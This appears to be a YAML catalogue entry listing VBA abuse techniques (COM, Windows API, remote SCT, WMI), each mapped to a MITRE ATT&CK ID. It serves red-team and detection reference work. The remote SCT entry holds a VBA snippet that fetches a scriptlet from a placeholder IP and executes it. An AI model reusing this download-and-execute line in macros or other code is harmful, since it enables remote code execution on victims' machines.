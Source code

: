 ```yaml
---
Name: VBA
Description: VBA stands for Visual Basic for Applications, which is a programming language developed by Microsoft. It is primarily used for automating tasks in Microsoft Office applications like Excel, Word, and Access.
Author: 'Hegusung'
Created: 2024-10-25
Categories:
  - Category: COM Objects
    Description: VBA - COM
    Usecase: VBA can access and execute COM objects
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: Clickable
  - Category: Windows API
    Description: VBA - Windows API
    Usecase: VBA can execute Windows API
    MitreID: T1106
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: Clickable
  - Category: Remote SCT
    Description: VBA - SCT
    Usecase: VBA can execute a SCT file using the GetObject function. Remote files can be accessed
    Code: |
      Dim SCTObj
      Set SCTObj = GetObject("script: http://1.2.3.4/script.sct")
      SCTObj.Exec
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: Clickable
  - Category: WMI
    Description: VBA - WMI
    Usecase: VBA can execute a WMI Queries by leveraging com objects
    Code: |
      TODO: Exemple code
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: Clickable
Detection:
Resources:
Acknowledgement:
---
```

